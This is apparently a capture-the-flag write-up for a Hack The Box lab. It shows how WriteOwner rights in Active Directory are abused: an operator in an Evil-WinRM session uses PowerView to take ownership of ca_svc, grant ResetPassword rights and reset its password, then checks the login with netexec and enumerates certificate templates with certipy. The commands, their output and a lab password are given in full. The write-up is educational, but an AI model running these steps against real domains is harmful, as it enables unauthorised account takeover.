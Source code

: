 ### Abusing WriteOwner permissions to force password reset

First, getting access as ca_svc by changing their password to `Hacked123!` using PowerView

```
*Evil-WinRM* PS C:\Users\ryan\Downloads> upload powerview.ps1
                                        
Info: Uploading /home/kali/Documents/escape2/powerview.ps1 to C:\Users\ryan\Downloads\powerview.ps1
                                        
Data: 1217440 bytes of 1217440 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\ryan\Downloads> import-module .\powerview.ps1
*Evil-WinRM* PS C:\Users\ryan\Downloads> $UserPassword = ConvertTo-SecureString 'Hacked123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Downloads> $SecPassword = ConvertTo-SecureString 'WqSZAF6CysDQbGb3' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\ryan\Downloads> $Cred = New-Object System.Management.Automation.PSCredential('SEQUEL.HTB\ryan', $SecPassword)
*Evil-WinRM* PS C:\Users\ryan\Downloads> Set-DomainObjectOwner -Identity ca_svc -OwnerIdentity Ryan
*Evil-WinRM* PS C:\Users\ryan\Downloads> Add-DomainObjectAcl -TargetIdentity ca_svc -PrincipalIdentity Ryan -Rights ResetPassword 
*Evil-WinRM* PS C:\Users\ryan\Downloads> Set-DomainUserPassword -Identity ca_svc -AccountPassword $UserPassword -Credential $Cred
```

Now we can see the password worked!

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec smb sequel.htb -u 'ca_svc' -p 'Hacked123!'             
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:Hacked123!
```

It's worth noting that this user cannot remote access the host:

```
┌──(kali㉿kali)-[~/Documents/escape2]
└─$ netexec winrm sequel.htb -u 'ca_svc' -p 'Hacked123!'
WINRM       10.10.11.51     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
/usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
  arc4 = algorithms.ARC4(self._key)
WINRM       10.10.11.51     5985   DC01             [-] sequel.htb\ca_svc:Hacked123!
```

Since this is a certificate based account and the only interesting group this user is included in is the `Cert Publishers`, we can enumerate potential attack vectors with certipy:

```
┌──(kali㉿kali)-[~]
└─$ certipy find -username ca_svc@sequel.htb -password 'Hacked123!' -dc-ip 10.10.11.51
Certipy v5.0.1 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
<...SNIP...>
[*] Saving text output to '20250516142519_Certipy.txt'
[*] Wrote text output to '20250516142519_Certipy.txt'
[*] Saving JSON output to '20250516142519_Certipy.json'
[*] Wrote JSON output to '20250516142519_Certipy.json'
```
